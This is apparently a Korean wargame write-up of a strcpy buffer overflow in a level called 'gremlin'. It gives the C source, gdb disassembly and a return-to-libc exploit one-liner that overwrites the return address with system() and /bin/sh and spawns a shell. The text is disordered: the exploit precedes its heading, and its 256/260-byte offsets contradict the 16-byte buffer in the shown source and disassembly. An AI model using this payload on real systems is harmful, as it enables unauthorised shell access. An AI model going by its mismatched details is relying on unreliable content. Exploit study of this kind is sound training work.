 ```
0x804847a <main+74>:	call   0x8048350 <printf>
0x804847f <main+79>:	add    %esp,8
0x8048482 <main+82>:	leave
0x8048483 <main+83>:	ret
```

### 3. exploit code
```
./gremlin `python -c 'print "A"*260+"\xe0\x8a\x05\x40"+"AAAA"+"\xf9\xbf\x0f\x40"'`
bash$ my-pass
euid = 501
hello bof world
```
이번 취약점은 strcpy에 buf 길이 검증을 하지 않아 발생하는 BoF.
esp는 ebp-256에 위치하고 있기 때문에 SFP(4)까지 A 를 입력하고  RET 위치에 RLT를 이용하여 system함수를 넣게 된다. 이후 4byte dummy를 생성하고, 인자값인 /bin/sh를 넣게 된다.


## gremlin

### 1. source code

  ```c
int main(int argc, char *argv[])
{
    char buffer[16];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```

### 2. gdb
```asm
0x8048430 <main>:	push   %ebp
0x8048431 <main+1>:	mov    %ebp,%esp
0x8048433 <main+3>:	sub    %esp,16
0x8048436 <main+6>:	cmp    DWORD PTR [%ebp+8],1
0x804843a <main+10>:	jg     0x8048453 <main+35>
0x804843c <main+12>:	push   0x80484d0
; "argv error\n"
0x8048441 <main+17>:	call   0x8048350 <printf>
0x8048446 <main+22>:	add    %esp,4
0x8048449 <main+25>:	push   0
0x804844b <main+27>:	call   0x8048360 <exit>
0x8048450 <main+32>:	add    %esp,4
0x8048453 <main+35>:	mov    %eax,DWORD PTR [%ebp+12]
0x8048456 <main+38>:	add    %eax,4
0x8048459 <main+41>:	mov    %edx,DWORD PTR [%eax]
0x804845b <main+43>:	push   %edx
0x804845c <main+44>:	lea    %eax,[%ebp-16]
0x804845f <main+47>:	push   %eax
0x8048460 <main+48>:	call   0x8048370 <strcpy>
0x8048465 <main+53>:	add    %esp,8
0x8048468 <main+56>:	lea    %eax,[%ebp-16]
0x804846b <main+59>:	push   %eax
; buffer
0x804846c <main+60>:	push   0x80484dc
; "%s\n"
0x8048471 <main+65>:	call   0x8048350 <printf>
```